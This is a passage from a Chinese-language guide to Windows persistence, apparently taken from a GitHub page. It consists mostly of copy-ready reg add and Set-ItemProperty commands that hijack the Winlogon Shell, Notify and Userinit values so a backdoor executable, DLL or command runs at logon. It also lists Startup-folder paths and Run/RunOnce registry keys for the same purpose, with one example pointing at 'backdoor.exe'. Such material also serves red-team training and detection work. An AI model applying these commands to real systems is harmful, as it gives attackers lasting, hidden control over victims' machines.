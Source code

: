 ```cmd
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, <path to executable>" -Force
```

`Notify `注册表项通常出现在较旧的操作系统（Windows 7 之前的操作系统）中，它指向处理 Winlogon 事件的通知包 DLL 文件

使用任意 DLL 替换此注册表下的DLLName将导致 Windows 在登录期间执行它

```cmd
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify

# Usage
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\cscdll" /v DLLName /d "<path to dll>" /f
```

#### 利用方法

Userinit 键默认的值为`C:\Windows\system32\userinit.exe`，修改注册表项`Userinit`以包含任意负载将导致系统在 Windows 登录期间运行两个可执行文件

```cmd
# Usage
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "C:\Windows\system32\userinit.exe,<path to executable>"

# 执行程序
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "C:\Windows\system32\userinit.exe,C:\Users\admin\Documents\backdoor.exe"

# 执行命令
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "C:\Windows\system32\userinit.exe,<command>"
```

### 3. 启动项

#### 开始菜单启动项

将后门程序放到上面的用户目录中，目标用户重新登录时便会启动后门程序

```cmd
# 当前用户目录  
%HOMEPATH%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

# 系统目录（需要管理员权限）  
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

#### 注册表启动项

```cmd
# 当前用户键值  
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce  
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce

# 服务器键值 管理员权限
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
```
